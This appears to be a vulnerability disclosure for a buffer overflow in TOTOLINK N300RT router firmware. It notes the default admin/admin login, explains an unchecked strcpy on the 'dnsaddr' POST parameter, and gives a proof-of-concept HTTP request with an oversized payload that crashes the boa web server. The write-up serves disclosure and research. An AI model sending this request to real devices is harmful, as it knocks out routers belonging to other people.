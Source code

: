 ## **Description**

A buffer overflow vulnerability was discovered in the TOTOLINK firmware N300RT-Ad-V4.0.0-B20211109.1137. The vulnerability arises from the improper input validation of the `'dnsaddr'` parameter in the 'formDhcpv6s' interface of the file boa.

## ​**Affected Product**

- ​**Brand**: TOTOLINK
- ​**Product**: N300RT
- ​**Version**: V4.0.0-B20211109.1137

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d totolink ../FIRMWARE/TOTOLINK-N300RT-Ad-V4.0.0-B20211109.1137.web
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `admin`

The result of the simulation is as follows: 
![sim_res](work_record/TOTOLINK/N300RT_ad/6/img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'FUN_0044f0b8' is below:
![vulner_code.png](work_record/TOTOLINK/N300RT_ad/6/img/vulner_code.png)
Because of the problem of ghidra decompilation, the code in `FUN_00402610()` should actually use the strcpy function to copy the parameters obtained by POST to an address.
![vulner_code_1.png](work_record/TOTOLINK/N300RT_ad/6/img/vulner_code_1.png)
- ​**web_get_var** retrieves POST parameters.
- **strcpy()** is used without length checks, leading to a ​buffer overflow.​

## **Proof of Concept (PoC)**
### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /boafrm/formDhcpv6s HTTP/1.1  
Host: 192.168.0.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 313  
Origin: http://192.168.0.1
Connection: close  
Referer: http://192.168.0.1/tcpipwan.htm
Upgrade-Insecure-Requests: 1  
  
enabledpchv6s=1&dnsaddr=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

After the request the `boa` process will crash.
![result](work_record/TOTOLINK/N300RT_ad/6/img/result.png)